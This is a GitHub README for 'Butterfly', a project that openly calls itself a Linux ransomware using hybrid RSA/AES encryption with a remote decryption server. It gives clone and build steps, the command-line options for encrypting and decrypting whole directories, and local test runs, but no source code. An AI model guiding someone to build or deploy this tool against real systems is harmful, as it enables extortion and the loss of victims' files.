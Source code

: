 # Butterfly

![](images/butterfly_black.png)
<br>
<p align="center">
<img src="images/butterfly_black.png" width="200" height="200">
</p>
Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :x:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with HTTPServer :heavy_check_mark: GUI :x: Wallpaper :x:
- Connection to the TOR Network :x:
- Bitcoin Payments :x:

## Dependencies

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

Build butterfly
<pre><code>
git clone https://github.com/bierschi/butterfly.git
cd butterfly
mkdir build && cd build
cmake ../
(cmake ../ -DUNITTESTS=ON -DLOGGING=ON)
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory Path to start the Hybrid Encryption Mechanism (Encryption+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory
	-dec, --decrypt	    Decrypts all files in provided directory, if the request to the Server was successful
	-k,   --key         Masterkey for the Decryption (Corresponds to the embedded Server Public Key)
	-p,   --protected   Save all key files to the System
	-c,   --config	    Logger Config Path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>

Test the full functionalities of `butterfly`
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Start the butterfly binary
./butterfly --dir /home/butterfly/data/
</code></pre>

Test the encryption + decryption mechanism separately (+ with remote decryption)
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem


# Start only the encryption
./butterfly --encrypt /home/butterfly/data

# Start only the decryption
./butterfly --decrypt /home/butterfly/data
</code></pre>

## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Test the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details